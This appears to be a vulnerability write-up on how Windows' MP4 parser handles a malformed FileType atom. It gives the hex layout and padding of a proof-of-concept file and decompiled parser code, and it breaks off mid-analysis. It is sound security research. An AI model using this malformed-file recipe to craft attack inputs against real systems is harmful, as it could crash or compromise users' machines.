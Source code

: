 ## A Primer on MP4 FileType atoms

As seen from [here](https://www.cimarronsystems.com/wp-content/uploads/2017/04/Elements-of-the-H.264-VideoAAC-Audio-MP4-Movie-v2_0.pdf), a FileType atom usually looks like this:
```
00 00 00 1C | 66 74 79 70 | 4D 34 56 20 | 00 00 02 00    ....ftypM4V ....
69 73 6F 6D | 69 73 6F 32 | 61 76 63 31 |                isomiso2avc1
```
It contains the following fields: 
- **Size** (4 bytes) - A 32-bit size of the atom, set to `0x1c`
- **Atom Type** (4 bytes) - Fourcc code of the atom, set to `ftyp`
- **Major Brand** (4 bytes) - The movie file type, set to `M4V ` 
- **Minor Verion** (4 bytes) - The movie file type minor version, a binary coded decimal, set to `0x200`
- **Compatible Brands** (4 bytes each) - 4 byte strings of compatible file formats, set to `isom`, `iso2`, `avc1`

However, as seen from [this website](https://wiki.multimedia.cx/index.php/QuickTime_container), when **size** is set to `0x1`, the actual atom size is stored in the next 8 bytes after **atom type**, known as the **extended size** field. This exists to cater for atoms with a 64-bit size. For example: 

```
00 00 00 01 | 66 74 79 70 | 00 00 00 01 FF FF FF FF     ....ftyp....ÿÿÿÿ
4D 34 56 20 | 00 00 02 00 | 69 73 6F 6D | 69 73 6F 32   M4V ....isomiso2
61 76 63 31 |                                           avc1
```
It contains the following fields: 
- **Size** (4 bytes) - A 32-bit size of the atom, set to `0x1`
- **Atom Type** (4 bytes) - Fourcc code of the atom, set to `ftyp`
- **Extended Size** (8 bytes) - The actual 64-bit size of the atom, set to `0x1ffffffff`
- **Major Brand** (4 bytes) - The movie file type, set to `M4V ` 
- **Minor Verion** (4 bytes) - The movie file type minor version, a binary coded decimal, set to `0x200`
- **Compatible Brands** (4 bytes each) - 4-byte strings of compatible file formats, set to `isom`, `iso2`, `avc1`

The first 16 bytes of `poc.mp4`, which has the same structure, is as shown:

```
00 00 00 01 | 66 74 79 70 | 00 00 00 00 00 00 00 FF
```
This represents a malformed FileType atom which contains the following fields:
- **Size** (4 bytes) - A 32-bit size of the atom, set to `0x1`
- **Atom Type** (4 bytes) - Fourcc code of the atom, set to `ftyp`
- **Extended Size** (8 bytes) - The actual 64-bit size of the atom, set to `0xff`

240 bytes containing `0x30` are appended to `poc.mp4` to fulfil the minimum valid file size of 256 bytes.

## Vulnerability Analysis

At `CQTMovie::GetFileTypeInfo+0x17a (mfmp4srcsnk.dll+0000000000040A3E)`, a `fileTypeAtom` is created, which is a `CQTFileTypeAtom` struct. Subsequently, it is then passed as arguments to `CQTAtom::InitializeAtom` and `CQTFileTypeAtom::ParseAtom`.
```C++
ptr = operator new(0xD0);
if ( ptr )
  fileTypeAtom = CQTFileTypeAtom::CQTFileTypeAtom(ptr);
else
  fileTypeAtom = 0i64;

if ( fileTypeAtom ) {
  FileTypeInfo = CQTAtom::InitializeAtom(v46, 0, fileTypeAtom);
  if ( FileTypeInfo < 0 ) {
    // Irrelevant Code
```